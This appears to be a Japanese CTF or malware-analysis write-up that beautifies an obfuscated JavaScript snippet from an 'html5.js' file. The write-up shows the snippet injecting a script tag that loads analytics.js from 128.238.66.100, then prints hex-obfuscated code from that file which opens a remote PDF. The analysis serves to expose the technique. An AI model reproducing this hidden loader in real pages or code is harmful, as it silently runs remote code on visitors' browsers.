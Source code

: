 ```js
var g="ti";var c="HTML Tags";var f=". li colgroup br src datalist script option .";f = f.split(" ");c="";k="/";m=f[6];for(var i=0;i<f.length;i++){c+=f[i].length.toString();}v=f[0];x="\'ht";b=f[4];f=2541*6-35+46+12-15269;c+=f.toString();f=(56+31+68*65+41-548)/4000-1;c+=f.toString();f="";c=c.split("");var w=0;u="s";for(var i=0;i<c.length;i++){if(((i==3||i==6)&&w!=2)||((i==8)&&w==2)){f+=String.fromCharCode(46);w++;}f+=c[i];} i=k+"anal"; document.write("<"+m+" "+b+"="+x+"tp:"+k+k+f+i+"y"+g+"c"+u+v+"j"+u+"\'>\</"+m+"\>");
```

[beautify](http://jsbeautifier.org/)してみます。

```js
var g = "ti";
var c = "HTML Tags";
var f = ". li colgroup br src datalist script option .";
f = f.split(" ");
c = "";
k = "/";
m = f[6];
for (var i = 0; i < f.length; i++) {
    c += f[i].length.toString();
}
v = f[0];
x = "\'ht";
b = f[4];
f = 2541 * 6 - 35 + 46 + 12 - 15269;
c += f.toString();
f = (56 + 31 + 68 * 65 + 41 - 548) / 4000 - 1;
c += f.toString();
f = "";
c = c.split("");
var w = 0;
u = "s";
for (var i = 0; i < c.length; i++) {
    if (((i == 3 || i == 6) && w != 2) || ((i == 8) && w == 2)) {
        f += String.fromCharCode(46);
        w++;
    }
    f += c[i];
}
i = k + "anal";
document.write("<" + m + " " + b + "=" + x + "tp:" + k + k + f + i + "y" + g + "c" + u + v + "j" + u + "\'>\</" + m + "\>");
```

このコードをnodeに与えて、`document.write`の引数になっている文字列を見てみると次のようになります。

```html
<script src='http://128.238.66.100/analytics.js'></script>
```

つまりhtml5.jsが実行されると'http://128.238.66.100/analytics.js'が読まれて実行されるわけです。ここにアクセスしてanalytics.jsを見てみます（長いので中身は省略します）。すると、明らかにおかしな箇所がありました。

```js
var _0x91fe = ["\x68\x74\x74\x70\x3A\x2F\x2F\x31\x32\x38\x2E\x32\x33\x38\x2E\x36\x36\x2E\x31\x30\x30\x2F\x61\x6E\x6E\x6F\x75\x6E\x63\x65\x6D\x65\x6E\x74\x2E\x70\x64\x66", "\x5F\x73\x65\x6C\x66", "\x6F\x70\x65\x6E"];
window[_0x91fe[2]](_0x91fe[0], _0x91fe[1]);
```
